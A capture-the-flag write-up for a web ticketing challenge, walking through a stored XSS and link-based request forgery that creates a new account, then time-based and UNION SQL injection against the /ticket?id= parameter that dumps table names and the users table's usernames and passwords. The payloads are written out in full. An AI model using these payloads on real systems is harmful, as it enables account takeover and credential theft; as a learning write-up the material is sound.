






FLAG0
Taking a look at the demo version, the tickets appear to be vulnerable to xss.
```<script>alert("OOpsie")</script>``` works.
When I login as an admin an alert pops up to my screen.

I have had a similar instance in a previous ctf where I sent a request from the admins side so I tried the same here.
Adding ```<script>fetch("http://localhost/newUser?username=turtle&password=1234&password2=1234");</script>``` to the title of the ticket worked in the test version. 
Problem is when I tried it on the real thing nothing happened...
Appearently the automated check doesn't run the js...
Well it was worth trying 🤷‍♂️

After getting a few hints one of them was "Links in tickets could be interesting"
Okay so the request needs to be as a href(link) to the /newUser.
Slap ```<a href="http://localhost/newUser?username=turtle&password=1234&password2=1234">hello</a>``` to the title (and body for good measures) and it seems to work.
Now I can login with the username turtle and password 1234.
There in an older ticket is (the correct, iykyk)flag0.

FLAG1
The tickets are viewed through /ticket?id= url and if you put something like 'a' as the id, the server will send back an error message.

The error message leaks some inner workings of the server and we can see that the application uses mysql for handling the posts.
Could it also be used for the users?
/ticket?id=1 AND SLEEP(10)
And the page loads for 10 seconds so there is an attackvector for sqlinjection.

We could do some timebased read one character at a time type dumping but trying an id that doesn't exist yet, let's say 20, the server returns the following error.

So the server tries to get the tickets title, body and reply but the request is empty.
What if we get a ticket that doesn't exist and UNION something else to it?
/ticket?id=20 UNION SELECT @@version, Database(), User()--

Nice...

Now we can dump the db tables with the following query.
/ticket?id=20 UNION SELECT NULL, NULL, GROUP_CONCAT(TABLE_NAME SEPARATOR 0x3c62723e) FROM information_schema.tables WHERE table_schema = 'level7' --

We got 2 tables tickets and users, I think it's obvious which one we are interested in😉
/ticket?id=20 UNION SELECT TABLE_NAME, NULL, GROUP_CONCAT(column_name SEPARATOR 0x3c62723e) FROM information_schema.columns WHERE table_name = 'users' --

And there are usernames/passwords.
/ticket?id=20 UNION SELECT NULL, NULL, GROUP_CONCAT(CONCAT(id, '~', username, '~', password) SEPARATOR 0x3c62723e) FROM users --

👌
